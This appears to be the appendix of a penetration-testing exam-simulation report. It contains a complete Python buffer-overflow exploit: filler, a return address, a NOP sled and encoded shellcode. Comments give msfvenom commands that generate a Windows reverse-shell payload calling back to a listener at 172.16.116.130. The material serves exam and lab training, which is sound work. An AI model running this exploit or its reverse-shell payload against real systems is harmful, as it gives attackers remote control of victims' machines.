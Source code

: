 ## Appendix - Metasploit/Meterpreter Usage

For the exam simulation, I haven't used my Metasploit/Meterpreter allowance.

## Appendix - Completed Buffer Overflow Code

```python
import socket
import sys
import time

if len(sys.argv) < 3:
    print("Usage: <script>.py <host> <port>")
    sys.exit()
host = sys.argv[1]
port = int(sys.argv[2])

try:
  filler = "A" * 524
  eip = "\xF3\x12\x17\x31"
  offset = "C" * 4
  nops = "\x90" * 10
## for poc:
##    msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -b "\x00" exitfunc=thread -f c
## for reverse:
## msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp lport=443 lhost=172.16.116.130 exitfunc=thread -b "\x00" -e x86/shikata_ga_nai -f c   
  shellcode = ("\xdb\xd2\xb8\x9b\x94\x34\x9f\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x52\x83\xc3\x04\x31\x43\x13\x03\xd8\x87\xd6\x6a\x22\x4f\x94"
"\x95\xda\x90\xf9\x1c\x3f\xa1\x39\x7a\x34\x92\x89\x08\x18\x1f"
"\x61\x5c\x88\x94\x07\x49\xbf\x1d\xad\xaf\x8e\x9e\x9e\x8c\x91"
"\x1c\xdd\xc0\x71\x1c\x2e\x15\x70\x59\x53\xd4\x20\x32\x1f\x4b"
"\xd4\x37\x55\x50\x5f\x0b\x7b\xd0\xbc\xdc\x7a\xf1\x13\x56\x25"
"\xd1\x92\xbb\x5d\x58\x8c\xd8\x58\x12\x27\x2a\x16\xa5\xe1\x62"
"\xd7\x0a\xcc\x4a\x2a\x52\x09\x6c\xd5\x21\x63\x8e\x68\x32\xb0"
"\xec\xb6\xb7\x22\x56\x3c\x6f\x8e\x66\x91\xf6\x45\x64\x5e\x7c"
"\x01\x69\x61\x51\x3a\x95\xea\x54\xec\x1f\xa8\x72\x28\x7b\x6a"
"\x1a\x69\x21\xdd\x23\x69\x8a\x82\x81\xe2\x27\xd6\xbb\xa9\x2f"
"\x1b\xf6\x51\xb0\x33\x81\x22\x82\x9c\x39\xac\xae\x55\xe4\x2b"
"\xd0\x4f\x50\xa3\x2f\x70\xa1\xea\xeb\x24\xf1\x84\xda\x44\x9a"
"\x54\xe2\x90\x0d\x04\x4c\x4b\xee\xf4\x2c\x3b\x86\x1e\xa3\x64"
"\xb6\x21\x69\x0d\x5d\xd8\xfa\x9e\xb2\x96\x78\xb6\xb0\x56\x7c"
"\xfc\x3c\xb0\x14\x12\x69\x6b\x81\x8b\x30\xe7\x30\x53\xef\x82"
"\x73\xdf\x1c\x73\x3d\x28\x68\x67\xaa\xd8\x27\xd5\x7d\xe6\x9d"
"\x71\xe1\x75\x7a\x81\x6c\x66\xd5\xd6\x39\x58\x2c\xb2\xd7\xc3"
"\x86\xa0\x25\x95\xe1\x60\xf2\x66\xef\x69\x77\xd2\xcb\x79\x41"
"\xdb\x57\x2d\x1d\x8a\x01\x9b\xdb\x64\xe0\x75\xb2\xdb\xaa\x11"
"\x43\x10\x6d\x67\x4c\x7d\x1b\x87\xfd\x28\x5a\xb8\x32\xbd\x6a"
"\xc1\x2e\x5d\x94\x18\xeb\x7d\x77\x88\x06\x16\x2e\x59\xab\x7b"
"\xd1\xb4\xe8\x85\x52\x3c\x91\x71\x4a\x35\x94\x3e\xcc\xa6\xe4"
"\x2f\xb9\xc8\x5b\x4f\xe8")
  buf = filler + eip + offset + nops + shellcode
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host,port))
  print("Sending evil payload")
  s.send(buf)
  print("Done, check your listener!")
except:
  print("Something went wrong")
  sys.exit()
```
